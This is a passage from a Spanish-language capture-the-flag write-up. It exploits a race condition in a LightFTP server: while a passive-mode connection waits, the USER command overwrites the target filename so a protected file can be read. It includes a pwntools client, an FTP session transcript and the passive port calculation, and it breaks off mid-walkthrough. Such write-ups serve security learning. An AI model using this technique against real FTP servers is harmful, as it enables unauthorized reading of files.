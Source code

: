 Observamos que si estamos en MODE_PASSIVE, el socket va a esperar por una conexión. Esto nos permite tener detenido el hilo y mientras está detenido usar el comando USER para cambiar el valor de context->FileName. Para obtener MODE_PASSIVE solo necesitamos usar el comando PASV.

Con esto es suficiente para poder leer el archvo de la flag. Un último detalle es que el servidor espera comandos que terminen con \r\n, por lo que hice un script para concatenar esos caracteres antes de enviarlos al servidor.

```python
from pwn import *

p = remote("47.89.253.219", 2121)

print(p.clean(timeout=4).replace(b"\r", b"").decode('utf-8'))

while True:
    cmd = input().strip()
    cmd += "\r\n"
    cmd = cmd.encode('utf-8')

    p.send(cmd)
    output = p.clean(timeout=4).strip().replace(b"\r", b"").decode('utf-8')
    print(output)
```

Finalmente obtenemos la flag:

```
220 LightFTP server ready
USER anonymous
331 User anonymous OK. Password required
PASS a
230 User logged in, proceed.
PASV
227 Entering Passive Mode (0,0,0,0,125,180).
LIST
150 File status okay; about to open data connection.
USER /
331 User / OK. Password required
```

Al entrar en modo pasivo el servidor nos da la ip y puerto (0,0,0,0,125,180) del socket que levantó y que usaremos para obtener la salida del comando LIST y RETR. Esta separada en 2 bytes, solo necesitamos unirla.

```python
❯ python3
Python 3.11.1 (main, Dec 11 2022, 15:18:51) [GCC 10.2.1 20201203] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(125)
'0x7d'
>>> hex(180)
'0xb4'
>>> 0x7db4
32180
```
